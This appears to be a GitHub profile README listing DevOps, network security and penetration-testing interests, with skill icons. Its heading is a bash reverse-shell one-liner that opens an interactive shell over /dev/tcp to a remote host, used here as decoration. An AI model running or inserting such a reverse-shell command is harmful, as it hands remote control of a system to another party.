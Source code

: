 <h1 align="center"> /bin/bash -i >& /dev/tcp/Ciscoanass/444 0>&1 </h1>


<p align="left">
  <img src="https://i.gifer.com/3rNn.gif" alt="image" width="600" align="right">
  </p>

   &lt;config&gt;

♾️ Devops

🖥️ Sys Administration

🛡️ Network Security

📶 Sys&Network Monitoring

👾 Ethical Hacking

💥 Penetration Testing


   &lt;/config&gt;


<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=azure,aws,docker,git,github,grafana,jenkins,postman,prometheus,ansible,terraform,nginx,bash,linux,redhat,ubuntu,debian,kali,powershell,windows,mysql,postgres,py,django,go,js,html,css,wordpress,vscode&perline=12  " />
  </a>
</p>
